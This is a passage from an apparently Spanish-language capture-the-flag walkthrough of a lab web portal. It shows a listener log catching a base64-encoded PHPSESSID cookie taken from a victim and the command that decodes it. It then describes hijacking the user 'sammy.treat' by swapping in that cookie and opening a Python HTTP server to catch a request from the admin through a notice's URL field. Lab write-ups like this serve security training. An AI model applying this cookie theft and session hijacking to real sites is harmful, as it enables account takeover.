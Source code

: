 Ahora si lo enviamos y esperamos unos segundos veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.84 - - [28/Sep/2025 04:27:06] "GET /?c=UEhQU0VTU0lEPTFoYjZqNnFnNGQwaTFnM2o0bXI5ZXE0amxm HTTP/1.1" 200 -
```

Vemos que ha funcionado, con esto lo que hemos echo es enviarnos a nuestro servidor las `cookies` de dicho usuario que haya abierto el archivo, por lo que vamos a probarlas de esta forma:

```shell
echo 'UEhQU0VTU0lEPTFoYjZqNnFnNGQwaTFnM2o0bXI5ZXE0amxm' | base64 -d
```

Info:

```
PHPSESSID=1hb6j6qg4d0i1g3j4mr9eq4jlf
```

Si nos vamos a nuestro navegador e intercambiamos la `cookie` actual que tenemos por la que nos han proporcionado en esta parte...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 103015.png" alt=""><figcaption></figcaption></figure>

Y recargamos la pagina, veremos que somos el usuario `sammy.treat`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 103042.png" alt=""><figcaption></figcaption></figure>

Por lo que vemos ha funcionado, somo un usuario con rango `lector` que es como si fueramos un profesor de universidad dentro de la pagina del portal.

Si nos vamos a `Notice Board` y le damos al boton de `+ Create Notice` veremos que nos mete como en un panel en el que podemos escribir un mensaje y esto le llega al `admin`, abajo podremos poner una `URL` del supuesto archivo, si probamos a meter nuestra `URL` de primeras con un servidor de `python3` abierto para ver que pasa, veremos lo siguiente:

```shell
python3 -m http.server 80
```

Ahora si enviamos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 104450.png" alt=""><figcaption></figcaption></figure>

Esperando un poco en el servidor veremos esto otro:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.84 - - [28/Sep/2025 04:42:26] "GET / HTTP/1.1" 200 -
10.10.11.84 - - [28/Sep/2025 04:42:26] code 404, message File not found
10.10.11.84 - - [28/Sep/2025 04:42:26] "GET /favicon.ico HTTP/1.1" 404 -
```

Veremos que ha realizado una conexion, por lo que sabemos que intenta como descargarse un archivo, vamos aprovechar esto para hacer lo mismo de antes, pero en la parte de `URL` poner otro `payload` mejor.
